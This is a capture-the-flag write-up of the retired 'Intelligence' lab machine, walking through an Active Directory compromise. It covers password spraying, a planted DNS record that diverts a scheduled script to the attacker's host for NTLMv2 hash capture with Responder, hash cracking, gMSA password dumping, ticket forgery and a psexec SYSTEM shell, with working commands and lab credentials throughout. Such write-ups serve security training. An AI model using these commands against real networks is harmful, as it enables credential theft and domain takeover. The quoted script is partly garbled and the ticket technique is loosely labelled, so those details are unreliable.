

# Intelligence

This is the write-up for the box Intelligence that got retired at the 27th November 2021.
My IP address was 10.10.14.7 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.248    intelligence.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/intelligence.nmap 10.10.10.248
```

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Intelligence
| http-methods:
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-09-25 17:32:11Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
|_ssl-date: 2022-09-25T17:33:33+00:00; +7h00m01s from scanner time.
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2022-09-25T17:33:32+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
|_ssl-date: 2022-09-25T17:33:33+00:00; +7h00m01s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2022-09-25T17:33:32+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Based on the open ports, this box is an **Active Directory domain controller**.
The hostname _dc.intelligence.htb_ should be added to the _/etc/hosts_ file.

## Checking HTTP (Port 80)

The web service is a custom developed website, which has no valuable information, but hosts two PDF files:
- _/documents/2020-01-01-upload.pdf_
- _/documents/2020-12-15-upload.pdf_

Both files don't have any interesting information, but it is strange that there is such a difference between the dates of the filenames.
There may be other PDF files, so we should fuzz every date of the year 2020 with the same name scheme.

Creating wordlist with every date of the year 2020:
```
for month in {01..12}; do for day in {01..31}; do echo 2020-$month-$day-upload.pdf; done; done > pdf.list
```

Fuzzing through the wordlist:
```
wfuzz -u http://10.10.10.248/documents/FUZZ -w pdf.list --hc 404
```

It finds 84 PDF files and they can be downloaded to check them:
```
for i in $(cat pdf.list); do wget http://10.10.10.248/documents/$i; done
```

All PDF files have metadata and different creators that should be put into a wordlist:
```
exiftool *.pdf | grep Creator | awk '{print $3}' > usernames.list
```

Using [Kerbrute](https://github.com/ropnop/kerbrute) to test if the usernames can authenticate to the domain controller:
```
./kerbrute userenum --dc 10.10.10.248 -d intelligence.htb usernames.list
```

Every username is valid and can be potentially used to gain access, if a valid password is found.
The PDFs may contain sensitive information such as temporary passwords, so they can be converted to text to search for strings:
```
for i in $(ls); do pdftotext $i; done
```

Searching for interesting phrases:
```
cat * | grep -iR password
```

The file _2020-06-04-upload.pdf_ has a default password:
```
New Account Guide
Welcome to Intelligence Corp!
Please login using your username and the default password of:
NewIntelligenceCorpUser9876
After logging in please change your password as soon as possible.
```

Using **Password Spraying** against all users:
```
crackmapexec smb 10.10.10.248 -u usernames.list -p 'NewIntelligenceCorpUser9876' --continue-on-success
```

The password works on the user _Tiffany.Molina_ and can be used to enumerate the SMB shares.

## Checking SMB (Port 445)

Enumerating the SMB shares:
```
crackmapexec smb 10.10.10.248 -u Tiffany.Molina -p 'NewIntelligenceCorpUser9876' --shares
```
```
Share           Permissions     Remark
-----           -----------     ------
ADMIN$                          Remote Admin
C$                              Default share
IPC$            READ            Remote IPC
IT              READ            
NETLOGON        READ            Logon server share
SYSVOL          READ            Logon server share
Users           READ            
```

The share _IT_ may contain sensitive information:
```
smbclient -U Tiffany.Molina //10.10.10.248/IT
```
```
smb: \> dir

downdetector.ps1    A    1046    Mon Apr 19 02:50:55 2021

smb: \> get downdetector.ps1
```

Contents of the PowerShell script _downdetector.ps1_:
```powershell
# Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory

foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*")  {
try {
$request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
if(.StatusCode -ne 200) {
Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
}
} catch {}
}
```

The script is crawling the DNS entries of the box and sends a message to the user _Ted Graves_ if a DNS name is not reachable.
This could be potentially abused after enumerating the domain controller more.

## Enumerating Domain Controller

To enumerate the **Active Directory domain controller**, the tool [BloodHound.py](https://github.com/fox-it/BloodHound.py) will be used:
```
bloodhound-python -ns 10.10.10.248 -d intelligence.htb -dc dc.intelligence.htb -u Tiffany.Molina -p NewIntelligenceCorpUser9876 -c All
```

There is an error message that the hostname _svc_int.intelligence.htb_ cannot be reached:
```
(...)
WARNING: Could not resolve: svc_int.intelligence.htb: The resolution lifetime expired after 3.203 seconds: Server 10.10.10.248 UDP port 53 answered The DNS operation timed out.; Server 10.10.10.24
8 UDP port 53 answered The DNS operation timed out.
```

The created files can be imported into **BloodHound** for further analysis.
The object _SVC_INT_ looks important, so lets mark it as an _High Value Target_ and check the shortest path to it:



Based on the permission _ReadGMSAPassword_, this user is a **Group Managed Service Account**, which is a special type of object where the password is managed and automatically changed by Domain Controllers.
The two users in the _ITSupport_ group are _Ted.Graves_ and _Laura.Lee_, so these should be marked as _High Value Targets_.

## Privilege Escalation

The PowerShell script from before checks for DNS entries starting with _"web"_ and in **Active Directory** every user can create domain entries.
It could run automatically and connect to the DNS entries it is checking.

Creating a domain entry with **dnstool.py** from the [Krbrelayx toolkit](https://github.com/dirkjanm/krbrelayx):
```
python3 krbrelayx/dnstool.py -u 'intelligence\Tiffany.Molina' -p NewIntelligenceCorpUser9876 -r webtest.intelligence.htb -a add -t A -d 10.10.14.7 10.10.10.248
```

After a while, the listener on my IP and port 80 receives a response from the box:
```
nc -lvnp 80

Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.10.10.248.
Ncat: Connection from 10.10.10.248:61778.
GET / HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.17763.1852
Host: webtest
```

Using **Responder** to steal **NTMLv2 hash**:
```
responder -I tun0
```
```
[HTTP] NTLMv2 Client   : 10.10.10.248
[HTTP] NTLMv2 Username : intelligence\Ted.Graves
[HTTP] NTLMv2 Hash     : Ted.Graves::intelligence:69c91fe390291bb1(...)
```

Cracking the NTLMv2 hash with **JohnTheRipper**:
```
john ted_graves.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

After a while it gets cracked and the password can get validated:
```
crackmapexec smb 10.10.10.248 -u ted.graves -p 'Mr.Teddy'
```

With this user it is possible to dump the credentials of the **Group Managed Service Account** _SVC_INT_ with the tool [gMSADumper](https://github.com/micahvandeusen/gMSADumper):
```
python3 /opt/gMSADumper/gMSADumper.py -u 'ted.graves' -p 'Mr.Teddy' -d intelligence.htb
```
```
Users or groups who can read password for svc_int$:
 > DC$
 > itsupport
svc_int$:::4b18bc2b883607c026d27bf526bcb3d4
```

Validating the hash of the object:
```
crackmapexec smb 10.10.10.248 -u svc_int$ -H 4b18bc2b883607c026d27bf526bcb3d4
```

### Privilege Escalation to Administrator

With this service user, is is possible to generate a **Silver Ticket** to impersonate an Administrator account.

Synchronizing local time with the box:
```
ntpdate 10.10.10.248
```

Generating ticket with the **Impacket framework**:
```
impacket-getST -spn WWW/dc.intelligence.htb -impersonate Administrator intelligence.htb/svc_int$ -hashes 4b18bc2b883607c026d27bf526bcb3d4:4b18bc2b883607c026d27bf526bcb3d4
```

Exporting ticket into environment variable:
```
export KRB5CCNAME=Administrator.ccache
```

Using **Impacket-psexec** to start a shell:
```
impacket-psexec -k -no-pass intelligence.htb/Administrator@dc.intelligence.htb
```

It starts a shell on the box as the _SYSTEM_ user!
